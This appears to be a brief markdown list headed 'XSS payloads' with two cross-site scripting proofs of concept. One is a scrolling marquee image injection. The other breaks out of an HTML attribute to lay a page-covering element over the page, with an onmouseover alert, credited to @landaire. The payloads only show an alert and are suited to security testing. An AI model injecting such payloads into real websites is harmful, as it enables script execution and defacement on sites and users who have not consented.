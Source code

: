 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style="width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0)> &targetWidth=100&targetHeight=100">

On mouse over that covers page by @landaire
